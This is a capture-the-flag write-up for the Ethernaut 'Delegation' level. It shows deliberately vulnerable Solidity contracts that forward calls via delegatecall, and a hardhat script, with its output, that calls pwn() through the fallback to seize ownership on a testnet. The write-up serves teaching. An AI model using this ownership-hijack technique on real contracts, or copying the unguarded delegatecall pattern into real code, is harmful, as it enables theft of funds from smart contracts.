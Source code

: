 ```yaml
---
title: Ethernaut #06 Delegation
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Delegation challenge writeup
---
```


## Delegation

### Challenge

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Background

The low level instruction `delegatecall` will execute the code in some other contract under the context of the current contract. This means the the code being called is executed but with the storage, `msg.value`, `msg.sender` etc of the caller contract. This can be used to implement libraries and and proxy contracts used for upgradeability.

### Attack

The attack is simple, we can call the `Delegation` contract address using the ABI of the `Delegate` contract. Is this case, the `fallback` function of the `Delegation` contract will be called and delegate the execution to the `Delegate` contract. Then we simply need to call the `pwn` function which will update the first slot in the caller function to the `msg.sender`, which in this case is the attacker.

* Get instance of `Delegate` contract ABI with `Delegation` contract address
* Call `pwn` function

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    delegationAddress = "0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3";
    contract = await ethers.getContractAt("Delegate", delegationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call delegate contract function
    tx = await contract.connect(account).pwn()
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/delegation-solve.js --network rinkeby
Level address   : 0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3
Contract Owner  : 0x9451961b7Aea1Df57bc20CC68D72f662241b5493
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
